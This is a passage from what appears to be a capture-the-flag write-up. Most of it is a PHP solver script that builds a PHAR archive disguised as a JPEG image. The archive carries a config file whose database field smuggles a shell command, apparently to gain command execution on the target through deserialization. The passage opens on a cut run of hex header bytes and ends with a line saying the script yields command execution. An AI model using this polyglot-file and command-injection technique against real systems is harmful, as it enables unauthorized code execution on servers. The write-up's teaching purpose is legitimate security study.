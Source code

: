 ```php
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$command = $_SERVER["argv"][1];

$content = '<config>
<db name="username" value="root"/>
<db name="password" value="rootganteng"/>
<db name="database" value="htb; ' . $command . ' #"/>
</config>';

$oldname = "image.phar";
$newname = "image.jpg";

@unlink($newname);
$phar = new Phar($oldname);
$phar->startBuffering();
$phar->addFromString("test.conf",$content);
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
$phar->stopBuffering();
rename($oldname, $newname);
```

### Getting the flag

Running the solver script will give us command execution.
![alt text](assets/image-10.png)